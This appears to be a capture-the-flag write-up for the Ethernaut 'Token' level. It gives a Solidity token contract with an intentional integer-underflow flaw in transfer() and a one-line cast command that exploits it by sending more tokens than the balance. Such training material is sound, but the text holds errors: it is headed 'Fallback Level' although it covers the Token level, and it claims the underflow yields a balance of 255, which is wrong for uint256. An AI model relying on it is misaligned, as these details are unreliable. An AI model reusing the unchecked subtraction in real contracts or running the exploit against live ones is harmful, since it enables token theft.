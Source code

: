 ## Fallback Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

## Solution

To pass this level, we need to send a transaction to cause an underflow resulting in a balance of 255.

### Walkthrough
1. underflowing our balance
```console
cast send $LEVEL_ADDRESS "transfer(address _to, uint _value)" $LEVEL_ADDRESS 21 --private-key $PRIVATE_KEY
```

## Further Reading
Integer overflows and underflows can be prevented by using OpenZeppelin's [SafeMath library](https://docs.openzeppelin.com/contracts/2.x/api/math)
